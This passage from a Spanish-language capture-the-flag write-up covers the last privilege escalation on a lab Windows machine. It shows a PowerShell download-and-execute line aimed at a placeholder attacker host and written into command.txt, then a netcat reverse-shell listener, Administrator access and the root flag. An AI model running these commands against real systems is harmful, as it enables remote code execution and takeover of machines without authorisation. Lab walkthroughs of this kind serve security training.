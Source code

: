 ```bash
*Evil-WinRM* PS C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64> echo "powershell IEX((New-Object Net.WebClient).DownloadString('http://<ip>:<port>/uwu'))" > command.txt
```

Luego, recibiremos otra shell más en unos minutos:

```bash
❯ nc -lvnp 8443
Listening on 0.0.0.0 8443
Connection received on 10.10.11.21 41561
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\testdir\working> ^Z
[1]  + 59845 suspended  nc -lvnp 8444

❯ stty raw -echo; fg
[1]  + 59845 continued  nc -lvnp 8444

PS C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\testdir\working>
```

Somos el usuario `Administrator`, por lo que ya tenemos control total de la máquina.

```bash
PS C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\testdir\working> cd ~
PS C:\Users\Administrator> whoami
axlle\administrator
```

> Un poco contradictorio la verdad, ya que siguiendo al README.md del driver que vimos antes, debería ser SYSTEM.
{: .prompt-info }

Con esto ya podemos concluir la máquina tomando la última flag.

```bash
PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---        11/15/2024   2:02 AM             34 root.txt


PS C:\Users\Administrator\Desktop> type root.txt
5ffa86fef68106ee8d7aa2953c******
```
